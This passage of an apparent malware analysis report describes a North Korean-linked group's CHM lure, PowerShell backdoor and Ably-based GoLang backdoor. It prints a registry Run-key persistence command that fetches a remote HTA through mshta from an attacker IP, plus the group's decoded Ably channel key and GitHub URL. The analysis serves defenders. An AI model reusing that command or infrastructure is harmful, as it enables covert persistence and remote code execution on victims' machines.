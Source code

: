 Figure 3. Content of CHM file

Figure 4. Script code within CHM
The malicious script obtained during the analysis was confirmed as PowerShell malware that maintains persistence through the use of an autorun registry key. It also possesses a backdoor feature.

Figure 5. PowerShell script (backdoor) downloaded from threat actor’s server
The PowerShell malware confirmed back in the February 2023 post, “HWP Malware Using the Steganography Technique” [3], had relatively simple features. It involved executing the threat actor’s commands and sending the results using CMD.exe, as well as registering to the RUN key registry for persistence. Although the recently obtained PowerShell malware still employs the same registry key registration for persistence, it does not use CMD.exe and instead performs different behaviors according to the C&C server command. The features are shown below in Table 1.
CommandFeaturefileinfoSends the file list and information (name, size, modified time) in a specific path saved as a CSV to the C&C server and deletes the csvdirCompresses folders in a specific path and sends the compressed file to the C&C server before deleting the filefileUploads a specific file to the C&C serverdownDownloads files to a specific pathregeditFeature to edit registrytaskFeature to register to task scheduler so it is executed repeatedly at 10 min intervalszipFeature to uncompress files in a specific pathrenameFeature to change the name of a specific filedelFeature to delete files in a specific pathTable 1. PowerShell backdoor features
2.2. Persistence
The malicious PowerShell script that is executed by MSHTA.exe uses the command below to register itself on the autorun registry key, allowing malicious scripts to be executed from the threat actor’s C&C server even after system reboots.

New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -Name kcJuWlrQO -Value ‘c:\windows\system32\cmd.exe /c PowerShell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass ping -n 1 -w 569782 2.2.2.2 || mshta hxxp://172.93.181[.]249/control/html/1.html’ -PropertyType String -Force;

2.3. Command and Control
The threat actor carried out later attack stages such as privilege escalation, exfiltration, and malware distribution through a backdoor that utilizes the Ably platform service which is based on GoLang. The Ably platform is capable of transferring data in real-time, and anyone with a channel authentication key can access the channel to receive messages. During the analysis, ASEC managed to secure the authentication key of the threat actor’s channel and view some of the commands that were sent to targets.
Time of TransmissionExecuted Command2023-05-09 10:16:16forfiles /p c:\programdata2023-05-09 10:49:47ren c:\programdata\wallpaper-river.jpg wallpaper-river.exe2023-05-09 10:49:53forfiles /p c:\programdata2023-05-09 10:50:09wmic OS get Caption,CSDVersion,OSArchitecture,Version2023-05-09 10:50:35c:\programdata\wallpaper-river.exeTable 2. Commands executed through AblyGo backdoor
The RedEyes group using Ably to send commands has been reported before by KISA [4] and Sekoia [5]. The Ably-based GoLang backdoor found at the time had the authentication key within its binary, as shown in Figure 6, but the backdoor obtained in this instance saved the authentication key in a GitHub repository, allowing for the authentication key to be received dynamically for channel communication. This was most likely done so that the Ably channel authentication key could be changed frequently and to prevent third parties from reading the channel messages.

Figure 6. Hard-coded authentication key information (previous AblyGo backdoor)

Figure 7. Feature to lookup authentication key using GitHub (AblyGo backdoor variant)(GitHub URL: https://raw.githubusercontent.com/thanks023/hello/main/ReadMe.txt)
The GoLang backdoor accesses the GitHub URL that exists within its binary and retrieves the data that is in the “<>BASE64-encoded channel authentication key” format in order to obtain the Ably channel authentication key. This method can also be seen in Figure 4 of “The Unintentional Leak: A glimpse into the attack vectors of APT37” [6] that was published by zscaler back in March 2023. According to this post, the threat actor frequently committed strings encoded in BASE64. Decrypting the string shown in Figure 4 results in the Ably authentication key value.
[GitHub Commit String]<>S3dITXZ3LmJvaUMzdzpqR2JmMDd3VW9iN3RGanoxM1dxRFE4WJRsVFBDbVBQdldzb3hZYjFxc21r[GitHub Decrypted String]<>KwHMvw.boiC3w:jGbf07wUob7tFjz13WqDQ8X.lTPCmPPvWsoxYb1qsmk (Ably authentication key)
If the AblyGo backdoor is executed on an infected system, the “<>authentication key” is retrieved from GitHub. It then parses “<>” with the code part of Figure 7 before decoding the string that follows with BASE64. The threat actor’s Ably channel is then accessed via the decoded authentication key value where messages named “UP” and “DOWN” are transmitted and received. The format and features of the transmitted and received data are shown below in Table 3.